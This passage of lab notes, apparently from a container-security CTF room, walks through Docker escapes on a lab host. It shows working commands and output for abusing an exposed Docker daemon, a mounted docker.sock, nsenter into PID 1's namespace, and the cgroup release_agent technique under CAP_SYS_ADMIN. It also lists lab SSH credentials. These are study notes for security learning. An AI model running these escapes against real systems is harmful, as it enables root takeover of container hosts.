  "ApiVersion": "1.40",
  "MinAPIVersion": "1.12",
  "GitCommit": "4484c46d9d",
  "GoVersion": "go1.13.15",
  "Os": "linux",
  "Arch": "amd64",
  "KernelVersion": "4.15.0-123-generic",
  "BuildTime": "2020-09-16T17:01:06.000000000+00:00"
}
```


Access exposed socket, check running process
```
╰─$ docker -H tcp://10.10.190.10:2375 ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED       STATUS          PORTS                    NAMES
63b932f4d7d2   privileged-container   "/usr/sbin/sshd -D"      2 years ago   Up 23 minutes   0.0.0.0:2244->22/tcp     musing_stonebraker
2b28b54f56f6   namespaces             "/usr/sbin/sshd -D"      2 years ago   Up 23 minutes   0.0.0.0:2255->22/tcp     goofy_diffie
3d8fe1db6635   container-socket       "/usr/sbin/sshd -D"      2 years ago   Up 23 minutes   0.0.0.0:2233->22/tcp     brave_mendel
fd1d7cc1b972   registry:2             "/entrypoint.sh /etc…"   2 years ago   Up 23 minutes   0.0.0.0:5000->5000/tcp   registry_example-registry_1
c5bd077f9ddb   registry:2             "/entrypoint.sh /etc…"   2 years ago   Up 23 minutes   0.0.0.0:7000->5000/tcp   registry_actual-registry-1_1
```


Enter using docker exec 
```
╰─$ docker -H tcp://10.10.190.10:2375 exec -ti 63b932f4d7d2 sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /.dockerenv
  /.dockerenv
# ls -l /var/run
  lrwxrwxrwx 1 root root 4 Sep 21  2020 /var/run -> /run
# ls -l /var/run/
  total 24
  drwxrwxrwt 2 root root 4096 Sep 21  2020 lock
  drwxr-xr-x 2 root root 4096 Sep 21  2020 mount
  drwxr-xr-x 2 root root 4096 Nov 10  2020 sshd
  -rw-r--r-- 1 root root    5 Jun  4 08:11 sshd.pid
  drwxr-xr-x 2 root root 4096 Sep 25  2020 systemd
  -rw-rw-r-- 1 root utmp  768 Nov 13  2020 utmp
#
```


### Escape via Expose Docker Daemon 

7.2. Looking for the exposed Docker socket
Armed with the knowledge we've learnt about the Docker socket in "Vulnerability #4: RCE via Exposed Docker Daemon", we can look for exposure of this file within the container, and confirm whether or not the current user has permissions to run docker commands with groups.

First connect to container instance using SSH
```
IP: 10.10.190.10
SSH Port: 2233
Username: danny
Password: danny
```


once inside, check docker sock at 
```
danny@3d8fe1db6635:/var/run$ ls -l
total 36
drwx------ 2 root root   4096 Nov 10  2020 docker
-rw-r--r-- 1 root root      5 Nov 10  2020 docker-ssd.pid
srw-rw---- 1 root docker    0 Jun  4 08:10 docker.sock
drwxrwxrwt 2 root root   4096 Sep 21  2020 lock
drwxr-xr-x 2 root root   4096 Sep 21  2020 mount
drwxr-xr-x 2 root root   4096 Nov 10  2020 sshd
-rw-r--r-- 1 root root      2 Jun  4 08:11 sshd.pid
drwx--x--x 3 root root   4096 Jun  4 09:03 sudo
drwxr-xr-x 2 root root   4096 Sep 25  2020 systemd
-rw-rw-r-- 1 root utmp    384 Jun  4 08:18 utmp
danny@3d8fe1db6635:/var/run$ ls -l /var/run/docker.sock
srw-rw---- 1 root docker 0 Jun  4 08:10 /var/run/docker.sock
danny@3d8fe1db6635:/var/run$ groups
danny docker
danny@3d8fe1db6635:/var/run$ id
uid=1000(danny) gid=1000(danny) groups=1000(danny),999(docker)

# Execute Docker Command
danny@3d8fe1db6635:/var/run$ docker ps
CONTAINER ID        IMAGE                  COMMAND                  CREATED             STATUS              PORTS                    NAMES
63b932f4d7d2        privileged-container   "/usr/sbin/sshd -D"      2 years ago         Up 2 hours          0.0.0.0:2244->22/tcp     musing_stonebraker
2b28b54f56f6        namespaces             "/usr/sbin/sshd -D"      2 years ago         Up 2 hours          0.0.0.0:2255->22/tcp     goofy_diffie
3d8fe1db6635        container-socket       "/usr/sbin/sshd -D"      2 years ago         Up 2 hours          0.0.0.0:2233->22/tcp     brave_mendel
fd1d7cc1b972        registry:2             "/entrypoint.sh /etc…"   2 years ago         Up 2 hours          0.0.0.0:5000->5000/tcp   registry_example-registry_1
c5bd077f9ddb        registry:2             "/entrypoint.sh /etc…"   2 years ago         Up 2 hours          0.0.0.0:7000->5000/tcp   registry_actual-registry-1_1
```

Now let's mount the a new container to the host directory
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```


```
danny@3d8fe1db6635:/var/run$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# groups
root daemon bin sys adm disk uucp groups: cannot find name for group ID 11
11 dialout tape sudo

# docker ps
CONTAINER ID        IMAGE                  COMMAND                  CREATED             STATUS              PORTS                    NAMES
8876347d3d4c        alpine                 "chroot /mnt sh"         4 minutes ago       Up 4 minutes                                 optimistic_nash
63b932f4d7d2        privileged-container   "/usr/sbin/sshd -D"      2 years ago         Up 2 hours          0.0.0.0:2244->22/tcp     musing_stonebraker
2b28b54f56f6        namespaces             "/usr/sbin/sshd -D"      2 years ago         Up 2 hours          0.0.0.0:2255->22/tcp     goofy_diffie
3d8fe1db6635        container-socket       "/usr/sbin/sshd -D"      2 years ago         Up 2 hours          0.0.0.0:2233->22/tcp     brave_mendel
fd1d7cc1b972        registry:2             "/entrypoint.sh /etc…"   2 years ago         Up 2 hours          0.0.0.0:5000->5000/tcp   registry_example-registry_1
c5bd077f9ddb        registry:2             "/entrypoint.sh /etc…"   2 years ago         Up 2 hours          0.0.0.0:7000->5000/tcp   registry_actual-registry-1_1
# ls -l .dockerenv
ls: cannot access '.dockerenv': No such file or directory
```

Escape Succesful 


Takeaways:
ls -l /.dockerenv
ls -l /var/run/docker.sock 
docker ps 
docker run -v /:/mnt --rm -it alpine chroot /mnt sh


### Exploiting Shared Namespaces

2

 three components of the Linux kernel:

- Namespaces
- Cgroups
- OverlayFS

Namespaces essentially segregate system resources such as processes, files and memory away from other namespaces.

Every process running on Linux will be assigned two things:

- A namespace
- A process identifier (PID)


  try and use `ps aux` from a vm and a container. 
  notice that vm has way many processes vs a container 

 the process with an ID of 0 is the process that is started when the system boots. Processes numbers increment and must be started by another process, so naturally, the next process ID will be #1. This process is the systems init , for example, the latest versions of Ubuntu use systemd. Any other process that runs will be controlled by systemd
 We can use process #1's namespace on an operating system to escalate our privileges. Whilst containers are designed to use these namespaces to isolate from another, they can instead, coincide with the host computers processes, rather than isolated from...this gives us a nice opportunity to escape!


#### the exploit

 now let's ssh to the container and use ps aux

 ```

 danny@63b932f4d7d2:~$ ps aux
 USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
 root         1  0.1  0.4 159856  9036 ?        Ss   03:49   0:02 /sbin/init
 root         2  0.0  0.0      0     0 ?        S    03:49   0:00 [kthreadd]
 root         4  0.0  0.0      0     0 ?        I<   03:49   0:00 [kworker/0:0H]
 root         5  0.0  0.0      0     0 ?        I    03:49   0:00 [kworker/u4:0]
 root         6  0.0  0.0      0     0 ?        I<   03:49   0:00 [mm_percpu_wq]
 root         7  0.0  0.0      0     0 ?        S    03:49   0:00 [ksoftirqd/0]
 root         8  0.0  0.0      0     0 ?        I    03:49   0:00 [rcu_sched]
 root         9  0.0  0.0      0     0 ?        I    03:49   0:00 [rcu_bh]
 root        10  0.0  0.0      0     0 ?        S    03:49   0:00 [migration/0]
 root        11  0.0  0.0      0     0 ?        S    03:49   0:00 [watchdog/0]
 root        12  0.0  0.0      0     0 ?        S    03:49   0:00 [cpuhp/0]
 root        13  0.0  0.0      0     0 ?        S    03:49   0:00 [cpuhp/1]
 root        14  0.0  0.0      0     0 ?        S    03:49   0:00 [watchdog/1]
 root        15  0.0  0.0      0     0 ?        S    03:49   0:00 [migration/1]
 root        16  0.0  0.0      0     0 ?        S    03:49   0:00 [ksoftirqd/1]
 root        17  0.0  0.0      0     0 ?        I    03:49   0:00 [kworker/1:0]
 root        18  0.0  0.0      0     0 ?        I<   03:49   0:00 [kworker/1:0H]
 root        19  0.0  0.0      0     0 ?        S    03:49   0:00 [kdevtmpfs]
 root        20  0.0  0.0      0     0 ?        I<   03:49   0:00 [netns]
 root        21  0.0  0.0      0     0 ?        S    03:49   0:00 [rcu_tasks_kthre]
 root        22  0.0  0.0      0     0 ?        S    03:49   0:00 [kauditd]
 root        25  0.0  0.0      0     0 ?        S    03:49   0:00 [khungtaskd]
 root        26  0.0  0.0      0     0 ?        S    03:49   0:00 [oom_reaper]
 root        27  0.0  0.0      0     0 ?        I<   03:49   0:00 [writeback]
 root        28  0.0  0.0      0     0 ?        S    03:49   0:00 [kcompactd0]
 root        29  0.0  0.0      0     0 ?        SN   03:49   0:00 [ksmd]
 root        30  0.0  0.0      0     0 ?        SN   03:49   0:00 [khugepaged]
 root        31  0.0  0.0      0     0 ?        I<   03:49   0:00 [crypto]
 root        32  0.0  0.0      0     0 ?        I<   03:49   0:00 [kintegrityd]
 root        33  0.0  0.0      0     0 ?        I<   03:49   0:00 [kblockd]
 root        34  0.0  0.0      0     0 ?        I<   03:49   0:00 [ata_sff]
 root        35  0.0  0.0      0     0 ?        I<   03:49   0:00 [md]
 root        36  0.0  0.0      0     0 ?        I<   03:49   0:00 [edac-poller]
 root        37  0.0  0.0      0     0 ?        I<   03:49   0:00 [devfreq_wq]
 root        38  0.0  0.0      0     0 ?        I<   03:49   0:00 [watchdogd]
 root        41  0.0  0.0      0     0 ?        S    03:49   0:00 [kswapd0]
 root        42  0.0  0.0      0     0 ?        I<   03:49   0:00 [kworker/u5:0]
 root        43  0.0  0.0      0     0 ?        S    03:49   0:00 [ecryptfs-kthrea]
 root        85  0.0  0.0      0     0 ?        I<   03:49   0:00 [kthrotld]
 root        86  0.0  0.0      0     0 ?        I<   03:49   0:00 [acpi_thermal_pm]
 root        90  0.0  0.0      0     0 ?        I<   03:49   0:00 [ipv6_addrconf]
 root        99  0.0  0.0      0     0 ?        I<   03:49   0:00 [kstrp]
 root       117  0.0  0.0      0     0 ?        I<   03:49   0:00 [charger_manager]
 root       155  0.0  0.0      0     0 ?        I<   03:49   0:00 [nvme-wq]
 root       156  0.0  0.0      0     0 ?        I<   03:49   0:00 [ena]
 root       228  0.0  0.0      0     0 ?        I<   03:49   0:00 [kdmflush]
 root       230  0.0  0.0      0     0 ?        I<   03:49   0:00 [bioset]
 root       305  0.0  0.0      0     0 ?        I<   03:49   0:00 [raid5wq]
 root       358  0.0  0.0      0     0 ?        S    03:49   0:00 [jbd2/dm-0-8]
 root       359  0.0  0.0      0     0 ?        I<   03:49   0:00 [ext4-rsv-conver]
 root       392  0.0  0.0      0     0 ?        I<   03:49   0:00 [kworker/0:1H]
 root       393  0.0  0.0      0     0 ?        I<   03:49   0:00 [kworker/1:1H]
 root       434  0.0  0.8  94884 16860 ?        S<s  03:50   0:00 /lib/systemd/systemd-journald
 root       442  0.0  0.0      0     0 ?        I    03:50   0:00 [kworker/1:2]
 root       451  0.0  0.0      0     0 ?        I<   03:50   0:00 [iscsi_eh]
 root       453  0.0  0.0      0     0 ?        I<   03:50   0:00 [ib-comp-wq]
 root       454  0.0  0.0      0     0 ?        I<   03:50   0:00 [ib-comp-unb-wq]
 root       455  0.0  0.0      0     0 ?        I<   03:50   0:00 [ib_mcast]
 root       456  0.0  0.0      0     0 ?        I<   03:50   0:00 [ib_nl_sa_wq]
 root       457  0.0  0.0 105904  1772 ?        Ss   03:50   0:00 /sbin/lvmetad -f
 root       459  0.0  0.0      0     0 ?        I<   03:50   0:00 [rdma_cm]
 root       461  0.0  0.0      0     0 ?        S<   03:50   0:00 [loop0]
 root       463  0.0  0.2  46680  5576 ?        Ss   03:50   0:01 /lib/systemd/systemd-udevd
 root       467  0.0  0.0      0     0 ?        S<   03:50   0:00 [loop1]
 root       638  0.0  0.0      0     0 ?        S    03:50   0:00 [jbd2/nvme1n1p2-]
 root       639  0.0  0.0      0     0 ?        I<   03:50   0:00 [ext4-rsv-conver]
 62583      763  0.0  0.1 141960  3232 ?        Ssl  03:50   0:00 /lib/systemd/systemd-timesyncd
 _apt       884  0.0  0.3  80204  6052 ?        Ss   03:50   0:00 /lib/systemd/systemd-networkd
 sshd       915  0.0  0.2  70664  5420 ?        Ss   03:50   0:00 /lib/systemd/systemd-resolved
 root      1015  0.0  1.3 803696 26424 ?        Ssl  03:50   0:00 /usr/bin/amazon-ssm-agent
 102       1021  0.0  0.2 263036  4532 ?        Ssl  03:50   0:00 /usr/sbin/rsyslogd -n
 root      1022  0.0  0.1 110416  2104 ?        Ssl  03:50   0:00 /usr/sbin/irqbalance --foreground
 daemon    1024  0.0  0.1  28332  2504 ?        Ss   03:50   0:00 /usr/sbin/atd -f
 root      1028  0.0  0.1  30104  3148 ?        Ss   03:50   0:00 /usr/sbin/cron -f
 root      1039  0.0  0.3 286448  6840 ?        Ssl  03:50   0:00 /usr/lib/accountsservice/accounts-daemon
 root      1045  0.0  0.8 169192 17240 ?        Ssl  03:50   0:00 /usr/bin/python3 /usr/bin/networkd-dispa
 root      1046  0.0  0.2  62156  5844 ?        Ss   03:50   0:00 /lib/systemd/systemd-logind
 root      1048  0.0  0.0 161076  1552 ?        Ssl  03:50   0:00 /usr/bin/lxcfs /var/lib/lxcfs/
 root      1049  0.0  1.4 785332 28516 ?        Ssl  03:50   0:01 /usr/lib/snapd/snapd
 103       1050  0.0  0.2  50052  4576 ?        Ss   03:50   0:00 /usr/bin/dbus-daemon --system --address=
 root      1142  0.1  2.3 1280800 47604 ?       Ssl  03:50   0:01 /usr/bin/containerd
 root      1162  0.0  0.9 186032 19936 ?        Ssl  03:50   0:00 /usr/bin/python3 /usr/share/unattended-u
 root      1170  0.0  0.1  14768  2320 ttyS0    Ss+  03:50   0:00 /sbin/agetty -o -p -- \u --keep-baud 115
 root      1171  0.0  0.3 291448  7104 ?        Ssl  03:50   0:00 /usr/lib/policykit-1/polkitd --no-debug
 root      1173  0.0  0.0  13244  1932 tty1     Ss+  03:50   0:00 /sbin/agetty -o -p -- \u --noclear tty1
 root      1213  0.0  0.2  72304  5888 ?        Ss   03:50   0:00 /usr/sbin/sshd -D
 root      1416  0.0  4.2 1401928 85248 ?       Ssl  03:50   0:01 /usr/bin/dockerd -H fd:// -H=tcp://0.0.0
 root      1671  0.0  0.1 479372  3924 ?        Sl   03:50   0:00 /usr/bin/docker-proxy -proto tcp -host-i
 root      1677  0.0  0.0      0     0 ?        I    03:50   0:00 [kworker/0:5]
 root      1697  0.0  0.1 479372  3924 ?        Sl   03:50   0:00 /usr/bin/docker-proxy -proto tcp -host-i
 root      1719  0.0  0.2 626836  4104 ?        Sl   03:50   0:00 /usr/bin/docker-proxy -proto tcp -host-i
 root      1726  0.0  0.1 626836  4004 ?        Sl   03:50   0:00 /usr/bin/docker-proxy -proto tcp -host-i
 root      1742  0.0  0.1 553104  3968 ?        Sl   03:50   0:00 /usr/bin/docker-proxy -proto tcp -host-i
 root      1750  0.0  0.2 108724  5556 ?        Sl   03:50   0:00 containerd-shim -namespace moby -workdir
 root      1751  0.0  0.2 110132  5432 ?        Sl   03:50   0:00 containerd-shim -namespace moby -workdir
 root      1756  0.0  0.3 108724  6152 ?        Sl   03:50   0:00 containerd-shim -namespace moby -workdir
 root      1757  0.0  0.2 108724  5264 ?        Sl   03:50   0:00 containerd-shim -namespace moby -workdir
 root      1759  0.0  0.3 110132  6412 ?        Sl   03:50   0:00 containerd-shim -namespace moby -workdir
 root      1852  0.0  0.2  72304  5628 ?        Ss   03:50   0:00 /usr/sbin/sshd -D
 root      1854  0.0  0.7 122768 14644 ?        Ssl  03:50   0:00 registry serve /etc/docker/registry/conf
 root      1864  0.0  0.7 122768 15032 ?        Ssl  03:50   0:00 registry serve /etc/docker/registry/conf
 root      1871  0.0  0.2  72304  5416 ?        Ss   03:50   0:00 /usr/sbin/sshd -D
 root      1874  0.0  0.2  72304  5532 ?        Ss   03:50   0:00 /usr/sbin/sshd -D
 root      2411  0.0  0.0      0     0 ?        I    04:01   0:00 [kworker/u4:2]
 root      2427  0.0  0.0      0     0 ?        I    04:04   0:00 [kworker/0:0]
 root      2429  0.0  0.3  72360  6556 ?        Ss   04:09   0:00 sshd: danny [priv]
 danny     2434  0.0  0.1  72360  3328 ?        R    04:10   0:00 sshd: danny@pts/0
 danny     2435  0.0  0.1  20356  3896 pts/0    Ss   04:10   0:00 -bash
 root      2445  0.0  0.0      0     0 ?        I    04:10   0:00 [kworker/u4:1]
 danny     2452  0.0  0.1  36152  3256 pts/0    R+   04:13   0:00 ps aux
 ```

The exploit here is actually rather trivial, but I'll digress nonetheless. We'll be invoking the nsenter command. To summarise, this command allows you to execute start processes and place them within the same namespace as another process. 

nsenter: https://man7.org/linux/man-pages/man1/nsenter.1.html 

```
Use the following exploit: `nsenter --target 1 --mount sh` which does the following:


1. We use the--target switch with the value of "1" to execute our shell command that we later provide to execute in the namespace of the special system process ID, to get ultimate root!

2. Specifying --mount this is where we provide the mount namespace of the process that we are targeting. "If no file is specified, enter the mount namespace of the target process." (Man.org., 2013)

3. As we are targeting  the "/sbin/init" process #1 (although it's actually a symbolic link to "lib/systemd/systemd" for backwards-compatibility), we are using the namespace and permissions of the systemd daemon for our new process (the shell)     

4. Here's where our process that will be executed into this privileged namespace: sh or a shell. This will execute in the same namespace (and therefore privileges of) the kernel.

```


now let's try 

```bash
root@63b932f4d7d2:~# ls -l /.dockerenv
-rwxr-xr-x 1 root root 0 Nov 12  2020 /.dockerenv
root@63b932f4d7d2:~# hostnamectl
-bash: hostnamectl: command not found
root@63b932f4d7d2:~# nsenter --target 1 --mount sh
# id
uid=0(root) gid=0(root) groups=0(root)
# pwd
  /
# ls -l /.dockerenv
  ls: cannot access '/.dockerenv': No such file or directory
# hostnamectl
Static hostname: docker-rodeo
Icon name: computer-vm
Chassis: vm
Machine ID: ccb536ad3f8b4cf49d4c5082f10bd5ad
Boot ID: 5615c3e8d44c43048fcc4baac88830b8
Virtualization: kvm
Operating System: Ubuntu 18.04.5 LTS
Kernel: Linux 4.15.0-123-generic
Architecture: x86-64
# ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.4 159856  9040 ?        Ss   03:49   0:02 /sbin/init
root         2  0.0  0.0      0     0 ?        S    03:49   0:00 [kthreadd]
root         4  0.0  0.0      0     0 ?        I<   03:49   0:00 [kworker/0:0H]
root         6  0.0  0.0      0     0 ?        I<   03:49   0:00 [mm_percpu_wq]
>>
```


Take Aways
ls -l /.dockerenv
ps aux # check ps 1 /sbin/init a symlink for `lib/systemd/systemd`
use nsenter: https://man7.org/linux/man-pages/man1/nsenter.1.html 


### Docker exploit


use `capsh --print`
```
https://linux.die.net/man/7/capabilities
CAP_SYS_ADMIN
*
Perform a range of system administration operations including: quotactl(2), mount(2), umount(2), swapon(2), swapoff(2), sethostname(2), and setdomainname(2);
*
```


Checking out capabilities
```
capsh --print | grep sys_admin
```



focus on the ability given to use us via "sys_admin" to be able to mount files from the host OS into the container

poc: https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

```
1.  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

2.  echo 1 > /tmp/cgrp/x/notify_on_release

3.  host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent

5.  echo '#!/bin/sh' > /exploit

6.  echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit

7.  chmod a+x /exploit

8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

```


## Additional Materials

- https://github.com/dirtycow/dirtycow.github.io
- https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/
- https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.
- https://docs.google.com/presentation/d/1WdByuxWgayPb-RstO-XaENSqVPGP7h6t3GS6W4

## Important Notes

docker enumeration
```
```
